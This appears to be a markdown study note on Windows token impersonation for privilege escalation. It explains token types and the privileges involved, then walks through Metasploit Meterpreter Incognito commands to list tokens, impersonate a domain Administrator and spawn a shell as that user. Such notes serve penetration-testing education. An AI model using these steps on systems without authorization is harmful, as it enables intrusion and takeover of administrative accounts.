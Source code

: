 # Token Impersonation (Windows Privilege Escalation)

### 🔑 What is a Token?

A **token** in Windows is like a **web cookie** — it temporarily grants access so a user doesn't need to re-enter credentials every time they access files or resources.

### 🧠 Types of Tokens

1. **Delegate Token**
    - Created during **interactive logins**
    - Example: When you log in via **Remote Desktop (RDP)** or directly at the machine
2. **Impersonation Token**
    - Created during **non-interactive logins**
    - Example: When you map a network drive or run a logon script

The following are the privileges that are required for a successful impersonation attack

- **SeAssignPrimaryToken:** This allows a user to impersonate token
- **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges
- **SeImpersonatePrivilege:**  This allows a user to create a process under the security context of another user typically with administrative privilaeges

`token presist until a reboot. When a user logs off, their delegate token is reported as an impersonate token but will still hold all of the rights of a delegate token`

## **Step-by-Step Exploitation**

### **1. Get a Meterpreter Shell**

First establish a foothold on the target machine.

> ⚠️ Requires Meterpreter from Metasploit
> 

### **2. Load Incognito Module**

```
use incognito
```

### **3. List Available Tokens**

- **List available tokens:** `list_tokens -u`
- Look for **delegation** or **impersonation** tokens (especially those of admin/system users)

```
list_tokens -u
```

Example output:

```
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

### **4. Impersonate a Privileged Token**

```
impersonate_token SNEAKS.IN\\Administrator
```

*Note:* Use double backslashes (**`\\`**) in the username

### **5. Verify Your New Identity**

```
getuid
```

### **6. Get a Shell with New Privileges**

```
shell
whoami
# This runs a new shell as the impersonated user.
execute -f cmd.exe -i -t
```

You should now be running as the impersonated user!


